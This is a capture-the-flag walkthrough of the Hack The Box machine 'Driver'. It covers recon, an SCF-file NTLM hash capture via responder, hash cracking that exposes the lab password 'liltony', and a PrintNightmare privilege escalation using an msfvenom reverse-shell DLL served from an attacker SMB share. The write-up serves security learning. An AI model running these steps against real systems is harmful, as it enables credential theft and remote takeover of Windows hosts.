 <p align="center"><img src="img/banner.png" alt="Banner"></img></p>
<p align="center">Machine creator: <a href="https://app.hackthebox.com/profile/13531">MrR3boot</a></p>

[![f4T1H21](https://www.hackthebox.eu/badge/image/184235)](https://app.hackthebox.eu/profile/184235)
<br>
<a href=https://www.buymeacoffee.com/f4T1H21>
  <img src="https://raw.githubusercontent.com/f4T1H21/f4T1H21/main/support.png" height="40" alt="Support">
  </img>
</a>
<br>

---
# Reconnaissance
### Nmap result
```
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-01-24T19:06:51
|_  start_date: 2022-01-24T18:23:54
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m58s
```

## `445/tcp` SMB service
We can neither log in with dumb credentials nor without credentials.
So there's nothing to do except bruteforce and this is not our first scope though.

## `135/tcp` MSRPC service
### Impacket's `rpcdump` result
We see the box can be vulnerable to PrintNightmare (CVE-2021-1675)

```console
┌──(root💀f4T1H)-[~/hackthebox/driver]
└─# impacket-rpcdump @10.10.11.106 | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

## `80/tcp` HTTP service
`driver.htb` asks us for an admin password at first and accepts `admin:admin`.

Firmware Update button forwards us to `/fw_up.php`, and we see a file upload section there.

![firmwareUpdates](img/firmwareUpdates.png)

At that point, the initial thought of mine was uploading a php reverse shell as you can expect. But no uploads directory existence, so it didn't make sense.

At this point, I learnt a new attack vector for SMB! Grabbing user's password hashes using `scf` files.

# Foothold: Grab user authentication hash using `smb` path in `scf` files

Let's have a look at what an `scf` file actually is.
>SCF stands for Shell Command File and is a file format that supports a very limited set of Windows Explorer commands, such as opening a Windows Explorer window or showing the Desktop. The "Show Desktop" shortcut we all use on a daily basis is an SCF file.

This files are also able to connect an smb share if any given.<br>
The blog post below explains the metodology of abusing this behaviour step by step.

https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

- Start an smb server (or a pre-configured relay, such as `responder`).
- Create an scf file.
- Upload it.
- File gets executed as soon as a user browses in the directory of the file. (Look at the squared area in above screenshot)
- Get your NTLM user hash from your server.

By the way, there's a feature in windows (in linux too) that puts files starts with an '@' symbol before other files. And works for folders too.

#### @f4T1H.scf
```
[Shell]
Command=2
IconFile=\\10.10.14.62\doesnot\exists
[Taskbar]
Command=ToggleDesktop
```

#### `responder -w --lm -v -I tun0`

After uploading the file, we receive an authentication attempt in our `responder`.

![responder](img/responder.png)

### John The Ripper
```
┌──(root💀f4T1H)-[~/hackthebox/driver]
└─# john -w=/usr/share/wordlists/rockyou.txt ntlmv2
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)     
1g 0:00:00:00 DONE (2022-01-25 07:45) 25.00g/s 793600p/s 793600c/s 793600C/s !!!!!!..225566
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

# Privilege Escalation: PrintNightmare (CVE-2021-1675)
First things first, generate a windows reverse shell payload using `msfvenom`.

```console
┌──(root💀f4T1H)-[~/hackthebox/driver]
└─# msfvenom -ax64 --platform windows -p windows/x64/shell_reverse_tcp LHOST=10.10.16.42 LPORT=2121 -f dll -o revshell.dll
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 8704 bytes
Saved as: revshell.dll
```

Second things second, clone impacket implementation of PrintNightmare from: https://github.com/cube0x0/CVE-2021-1675

Third things third, start an smb server of your choice (mine is impacket :).

```console
┌──(root💀f4T1H)-[~/hackthebox/driver]
└─# impacket-smbserver -ip 10.10.16.42 f4T1H .             
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Fourth thing fourth, run the exploit with the proper positional arguments.
```console
┌──(root💀f4T1H)-[~/hackthebox/driver/CVE-2021-1675]
└─# python3 CVE-2021-1675.py DRIVER/tony:liltony@10.10.11.106 '\\10.10.16.42\f4T1H\revshell.dll'
[*] Connecting to ncacn_np:10.10.11.106[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\10.10.16.42\f4T1H\revshell.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
```

![root](img/root.png)

---

# Resources

|__`SMB SCF file attacks`__|__https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/__|
|:-|:-|
|__`CVE-2021-1675 PrintNightmare`__|__https://github.com/cube0x0/CVE-2021-1675__|

<br>

___─ Written by f4T1H ─___
